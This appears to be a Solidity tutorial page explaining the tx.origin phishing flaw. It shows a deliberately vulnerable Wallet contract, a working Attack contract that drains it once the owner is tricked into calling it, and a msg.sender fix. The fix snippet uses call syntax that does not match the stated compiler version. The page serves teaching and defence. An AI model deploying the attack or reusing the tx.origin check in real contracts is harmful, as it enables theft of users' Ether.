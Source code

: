 ```yaml
---
title: Phishing with tx.origin
version: 0.8.10
description: An example of phishing with tx.origin in Solidity
---
```


### What's the difference between `msg.sender` and `tx.origin`?

If contract A calls B, and B calls C, in C `msg.sender` is B and `tx.origin` is A.

### Vulnerability

A malicious contract can deceive the owner of a contract into calling a
function that only the owner should be able to call.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;

/*
Wallet is a simple contract where only the owner should be able to transfer
Ether to another address. Wallet.transfer() uses tx.origin to check that the
caller is the owner. Let's see how we can hack this contract
*/

/*
1. Alice deploys Wallet with 10 Ether
2. Eve deploys Attack with the address of Alice's Wallet contract.
3. Eve tricks Alice to call Attack.attack()
4. Eve successfully stole Ether from Alice's wallet

What happened?
Alice was tricked into calling Attack.attack(). Inside Attack.attack(), it
requested a transfer of all funds in Alice's wallet to Eve's address.
Since tx.origin in Wallet.transfer() is equal to Alice's address,
it authorized the transfer. The wallet transferred all Ether to Eve.
*/

contract Wallet {
    address public owner;

    constructor() payable {
        owner = msg.sender;
    }

    function transfer(address payable _to, uint _amount) public {
        require(tx.origin == owner, "Not owner");

        (bool sent, ) = _to.call{value: _amount}("");
        require(sent, "Failed to send Ether");
    }
}

contract Attack {
    address payable public owner;
    Wallet wallet;

    constructor(Wallet _wallet) {
        wallet = Wallet(_wallet);
        owner = payable(msg.sender);
    }

    function attack() public {
        wallet.transfer(owner, address(wallet).balance);
    }
}

```

### Preventative Techniques

Use `msg.sender` instead of `tx.origin`

```solidity
function transfer(address payable _to, uint256 _amount) public {
  require(msg.sender == owner, "Not owner");

  (bool sent, ) = _to.call.value(_amount)("");
  require(sent, "Failed to send Ether");
}

```
